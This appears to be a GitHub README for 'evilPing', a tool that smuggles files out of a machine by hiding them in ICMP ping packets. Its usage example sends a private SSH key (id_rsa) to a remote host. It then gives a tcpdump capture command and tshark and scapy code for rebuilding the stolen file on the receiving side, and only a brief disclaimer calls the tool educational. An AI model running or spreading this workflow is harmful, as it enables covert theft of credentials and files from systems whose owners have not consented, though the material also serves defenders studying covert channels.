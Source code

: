 # evilPing
Sending file through ICMP packet using PING

This tools will convert the data into hexadecimal and send through ICMP packet in each block. if the connection not stable or any packet failed to send, the script will retry sending the failed data first before go to the next block data

![Running](img/test.png)
![Listen](img/listen.png)
![Result](img/result.png)

### Usage
```
Usage: ./evilPing.sh <file> <host>
```
Example
```
./evilPing.sh id_rsa 192.168.1.2
```

### Listening server for receiving ICMP packet using TCPdump
```
sudo tcpdump -i any -s 0 'icmp' -w evilPing-received.pcap
```

### Extract data with tshark
```
tshark -r evilPing-received.pcap -T fields -e data -Y ip.src==192.168.56.1 -Y icmp.type==8 | tail -n +2 | cut -c 17-48 | xxd -r -p
```

### Extract data with scapy
```
#!/usr/bin/env python3

from scapy.all import *

src_ip = '192.168.56.1'
packet = rdpcap('evilPing-received.pcap')
data = b''

for pkt in packet[1:]:
    if pkt[IP].src == src_ip and pkt[ICMP].type == 8:
        data += pkt[Raw].load[16:32]

with open('output', 'wb') as w:
    w.write(data)
```

#### legal disclaimer
This tools is for educational purpose only. usage of evilPing for attacking targets without prior mutual consent is illegal and developers assume no liability and are not responsible for any misuse or damage caused by this program.
